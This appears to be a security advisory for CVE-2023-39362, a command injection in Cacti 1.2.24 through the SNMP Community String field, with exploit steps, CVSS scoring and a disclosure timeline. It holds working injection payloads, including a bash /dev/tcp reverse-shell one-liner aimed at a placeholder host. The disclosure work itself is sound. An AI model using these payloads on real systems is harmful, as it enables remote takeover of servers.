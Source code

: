 ## Example of an exploit

1. Go to "*Console*" > "*Create*" > "*New Device*".
2. Create a Device that supports SNMP version 1 or 2.
3. Ensure that the Device has Graphs with one or more templates of:
   * "*Net-SNMP - Combined SCSI Disk Bytes*"
   * "*Net-SNMP - Combined SCSI Disk I/O*"
   * (Creating the Device from the template "*Net-SNMP Device*" will satisfy the Graphs prerequisite)
4. In the "*SNMP Options*", for the "*SNMP Community String*" field, use a value like this: `public\' ; touch /tmp/m3ssap0 ; \'`.
5. Click the "*Create*" button.
6. Check under `/tmp` the presence of the created file.

To obtain a reverse shell, a payload like the following can be used.
```
public\' ; bash -c "exec bash -i &>/dev/tcp/<host>/<port> <&1" ; \'
```

A similar exploit can be used editing an existing Device, with the same prerequisites, and waiting for the poller to run. It could be necessary to change the content of the "*Downed Device Detection*" field, under the "*Availability/Reachability Options*" section, with an item that doesn't involve SNMP (because the malicious payload could break the interaction with the host).

## CVSS v3

**Severity**: High (7.2 / 10)

* **Attack vector**: Network
* **Attack complexity**: Low
* **Privileges required**: High
* **User interaction**: None
* **Scope**: Unchanged
* **Confidentiality**: High
* **Integrity**: High
* **Availability**: High

`CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:H/A:H`

## Video

<video width="600" controls>
    <source src="./videos/Cacti 1.2.24 - Command injection - Demo.mp4" type="video/mp4">
    Video of the exploit on vulnerable Cacti 1.2.24 installation.
</video>

Exploit executed on a [vulnerable containerized environment](https://github.com/m3ssap0/cacti-rce-snmp-options-vulnerable-application).

## Timeline

* 2023-09-05 - Vulnerability disclosed by Cacti team.
* 2023-08-07 - [CVE-2023-39362](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-39362) issued.
* 2023-08-05 - CVE requested.
* 2023-08-04 - Commits with the fix ([cb9ab92](https://github.com/Cacti/cacti/commit/cb9ab92f2580fc6cb9b64ce129655fb15e35d056), [4c26f39](https://github.com/Cacti/cacti/commit/4c26f39fa3567553192823a5e8096b187bbaddde)) and retest.
* 2023-07-04 - Maintainers acknowledged the presence of the vulnerability.
* 2023-07-03 - Finished the analysis, confirmed the vulnerability and reported it to the maintainers.
* 2023-07-02 - Discovered the presence of a possible vulnerability.
